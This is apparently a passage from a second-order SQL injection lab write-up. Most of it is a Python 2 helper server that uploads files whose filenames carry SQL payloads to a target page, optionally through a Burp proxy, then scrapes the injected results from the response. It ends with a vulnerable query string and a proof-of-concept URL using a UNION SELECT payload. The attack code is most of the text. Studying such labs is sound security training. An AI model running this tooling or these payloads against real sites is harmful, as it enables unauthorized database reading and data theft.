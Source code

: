 ```python

        # Using a b64 magic number to simulate the file 
        files = {'image': (payload,base64.b64decode('/9g='))}
        

        # Uncomment for Burp interception
        
        '''
        proxies = {
                'http': 'http://127.0.0.1:8080',
                'https': 'http://127.0.0.1:8080'
                }

        r = requests.post(url, files=files, proxies=proxies, verify=False)
        
        '''

        # No Burp interception

        # Get response (CHANGE url_Website)

        r = requests.post(url, files=files, verify=False)

        url = "http://url_Website/sqli/public/index.php"
        response = requests.get(url,verify=False)

        # Replace parenthesis to not break regex
        payload = payload.replace(")", "\)")
        payload = payload.replace("(", "\(")
        # regex to serach the response
        z= re.search('<div class=\"imageDiv\">\n.*\n.*\n.*'+payload+'.*\n.*\n.*<\/div>',str(response.text))

        if z:
            self.wfile.write(z.group(0))

        
        
    def do_POST(self):
        self._set_headers()
        form = cgi.FieldStorage(
            fp=self.rfile,
            headers=self.headers,
            environ={'REQUEST_METHOD': 'POST'}
        )
        print form.getvalue("foo")
        print form.getvalue("bin")
        self.wfile.write("<html><body><h1>POST Request Received!</h1></body></html>")

def run(server_class=HTTPServer, handler_class=GP, port=8088):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print 'Server running at localhost:8088...'
    httpd.serve_forever()

run()
```
## 1 - ENTRY LEVEL
```bash
Query: $query = "SELECT views from attachments where filename='$filename'";
# PoC
http://hacker.site/2nd/view.php?payload=%27%20union%20select%20@@version;%20--%20-
```